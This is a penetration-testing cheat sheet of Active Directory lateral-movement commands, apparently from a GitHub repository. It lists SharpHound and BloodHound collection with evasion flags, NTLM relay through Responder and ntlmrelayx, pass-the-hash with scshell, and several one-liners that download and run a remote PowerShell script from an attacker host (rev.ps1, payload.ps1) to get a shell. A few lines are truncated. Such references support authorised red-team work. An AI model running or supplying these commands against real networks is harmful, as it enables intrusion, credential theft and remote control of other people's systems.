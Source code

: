 * * *

# Lateral Movement

##### BloodHound

```powershell
.\SharpHound.exe -c all -d active.htb -SearchForest
.\SharpHound.exe --EncryptZip --ZipFilename export.zip
.\SharpHound.exe -c all,GPOLocalGroup
.\SharpHound.exe -c all --LdapUsername <UserName> --LdapPassword <Password> --JSONFolder <PathToFile>
.\SharpHound.exe -c all -d active.htb --LdapUsername <UserName> --LdapPassword <Password> --domaincontroller 10.10.10.100
.\SharpHound.exe -c all,GPOLocalGroup --outputdirectory C:\Windows\Temp --randomizefilenames --prettyjson --nosavecache --encryptzip --collectallproperties --throttle 10000 --jitter 23
.\SharpHound.exe -c all,GPOLocalGroup --searchforest

Invoke-BloodHound -SearchForest -CSVFolder C:\Users\Public
Invoke-BloodHound -CollectionMethod All  -LDAPUser <UserName> -LDAPPass <Password> -OutputDirectory <PathToFile>

pip install bloodhound
bloodhound-python -d lab.local -u rsmith -p Winter2017 -gc LAB2008DC01.lab.local -c all
```

##### Relay

```bash
cme smb --gen-relay-list smb_targets.txt 172.21.23.0/24
Responder -I tun0 -dw
ntlmrelayx.py -no-http-server -smb2support -t $IP 
-c 'cmd /c whoami'
or
-c "cmd /c powershell.exe iex(new-object net.webclient).downloadstring('http://172.21.23.27/rev.ps1')"
or
-e payload.exe
```

##### Fileless Movemen

```powershell
$sess = New-PSSession -ComputerName <Name>
Copy-item -path C:\users\public\payload.ps1 -destination 'C:\users\public\payload.ps1' -tosession $sess

latmov.exe <server> SensorService "cmd.exe /c nc.exe 
latmov.exe <server> SenorService "cmd.exe /c powershell.exe iex(new-object net.webclient).downloadstring('http://172.21.23.27/payload.ps1')"
or
proxychains python scshell.py -service-name Sensorservice DOMAIN/USERNAME:PASSWORD@ComputerIP
proxychains python scshell.py -service-name Sensorservice DOMAIN/USERNAME@ComputerIP -hashes 00000000000000000000000000000000:aec2214937bedcfa722c4123ca859423
```

